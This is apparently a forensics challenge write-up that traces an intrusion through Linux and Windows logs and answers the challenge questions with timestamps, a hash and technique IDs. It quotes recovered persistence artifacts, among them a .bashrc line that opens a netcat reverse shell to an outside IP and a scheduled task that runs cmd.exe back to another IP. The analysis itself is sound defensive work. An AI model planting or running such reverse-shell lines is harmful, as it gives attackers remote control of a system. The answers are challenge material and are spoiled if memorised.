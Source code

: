 - In Q14, I have already found a persistent schedule task on window logs, but I have confusion for linux log, so I built a script for automatically searching IP in all file in logs, then it points me to ***catscale_out\User_Files\hidden-user-home-dir\home\sdb-aroy\.bashrc***:
```bash
unset color_prompt force_color_prompt
nc -e /bin/bash 3.224.124.130 2323 2>/dev/null &
# If this is an xterm set the title to user@host:dir
case "$TERM" in
```
and also windows **SWS25\C\Windows\System32\Tasks\WindowsNetworkConnector**:
```bash
<Exec>
      <Command>C:\Windows\INF\networkconn.exe</Command>
      <Arguments>-e cmd.exe 34.234.202.16 2424</Arguments>
    </Exec>
  </Actions>
```
Q14: 3.224.124.130, 34.234.202.16
(searching script can be found in [myrepo](https://github.com/luckystars0612/Forensics/blob/main/Automate%20searching%20scripts/search_ip_through_dirs_exact_slow.py))
- Return to winlogs, I found a prefetch file name **nltest**, this must be the native window bin that attacker uses for gathering domain info
Q1: 2024-10-24 06:27:29
- After using nltest to gather info about DC, I found a suspicious process named bitsadmin, which can be used for downloading, execute, even cleaning indicators and exfiltrating data.
Q3: bitsadmin.exe
- The technique ID of using bitsadmin is t1197
Q4:T1197
Q15: examinate rdp event logs (event 1025)
```bash
RDP ClientActiveX has connected to the server
```
Q16: end session time is 07:34:40 UTC, so the session duration is 1615
# Questions
## 1. What time (UTC) did the threat actor retrieve details about the domain controller using a native Windows tool?
- 2024-10-24 06:27:29
## 2. To what directory on the compromised system did the threat actor download the tools used for reconnaissance?
- C:\Windows\INF
## 3. Which legitimate Windows program did the threat actor use to download the initial file?
- bitsadmin.exe
## 4. What is the MITRE ATT&CK Technique ID associated with the method used by the threat actor in Question #3?
- T1197
## 5. The threat actor used a program to identify the credentials stored on the victim machine. What was the original filename of this program before it was renamed?
- CredentialsFileView
## 6. What is the SHA1 hash of the file in Question #5?
- 5463f4140efd005a7bafa6fa0fa759bcfcf7da4a
## 7. At what time (UTC) did the threat actor rename the program in Question #5?
- 2024-10-24 06:35:24